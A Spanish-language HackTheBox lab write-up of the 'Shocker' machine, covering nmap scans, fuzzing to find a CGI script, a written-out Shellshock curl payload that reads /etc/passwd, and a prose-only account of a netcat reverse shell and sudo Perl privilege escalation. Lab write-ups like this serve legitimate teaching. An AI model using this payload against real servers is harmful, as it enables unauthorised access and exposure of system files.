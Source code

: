 ```yaml
---
title: "Shocker - HackTheBox"
layout: single
excerpt: Esta máquina me gusto mucho a pesar de su facilidad a la hora de completarla, su título te da el vector de ataque.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png"
categories:
  - HackTheBox
tags:
  - shellshock
  - perl
  - WZFuzz
  - curl
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/124813522-42c79880-df65-11eb-8d32-56d4e415795d.png">
</p>

Comence efecutando un escaneo con `Nmap` para identificar los puertos abiertos de la maquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -v -Pn -n 10.10.10.56 -oG allPorts 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Initiating SYN Stealth Scan at 15:48
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 15:48, 0.47s elapsed (1000 total ports)
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
           Raw packets sent: 1038 (45.672KB) | Rcvd: 1018 (40.728KB)
```

Tambien hice otro escaneo para verificar la version y servicio de cada puerto abierto.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted            
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Nmap scan report for 10.10.10.56
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds
```

Al parecer solo tenía dos puertos, empece por el servidor web, poco podía hacer en el servicio SSH, se veía esto.

![primera (1)](https://user-images.githubusercontent.com/69093629/124386681-d5ed9d80-dcdb-11eb-93dd-7f6951fceb66.png)

No encontré nada, por lo que recurrí a hacer un "fuzzing" con  `WZFuzz`.

![miherramienta](https://user-images.githubusercontent.com/69093629/124386715-f74e8980-dcdb-11eb-8ffb-9591b5ab20c7.png)

Encontré un `/cgi-bin/`, esto parecía un `shellshock` en toda regla, fuzze con `wfuzz`, para ver si podía encontrar un script en bash.

![fuzzer](https://user-images.githubusercontent.com/69093629/124386763-35e44400-dcdc-11eb-9387-501de5ea0565.png)

Y si, encontré un script llamado `user.sh`, para confirmar que era un `shellshock` hice uso del script [exploit-deface.sh](https://raw.githubusercontent.com/opsxcq/exploit-CVE-2014-6271/master/exploit-deface.sh) y efectivamente era vulnerable a `shellshock`, ejecute el siguiente comando enviando una petición por GET por `curl` para ver si me devolvía el  `/etc/hosts`.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

Si, me devolvió el contenido del  `/etc/hosts`, ahora solo faltaba acceder a la máquina, me entable una reverse Shell por "netcat" por el puerto `443` y accedí.

![ypadentro](https://user-images.githubusercontent.com/69093629/124386921-ee11ec80-dcdc-11eb-97b5-e2650c100612.png)

Ahora solo faltaba la escalada de privilegios, para ello hice  `sudo -l`, vi que podía ejecutar Perl con privilegios `root`, me dirigí a [gftobing](https://gtfobins.github.io/) para ver si podía escalar privilegios de alguna manera con Perl, al parecer si podía.

![Captura de pantalla (650)](https://user-images.githubusercontent.com/69093629/124387071-6aa4cb00-dcdd-11eb-900c-dfa65fa1d770.png)

Ejecute el comando con `sudo` y me otorgo permisos de superusuario.

![ypadentro2](https://user-images.githubusercontent.com/69093629/124387098-81e3b880-dcdd-11eb-9d8d-657e81eafc75.png)

 
 
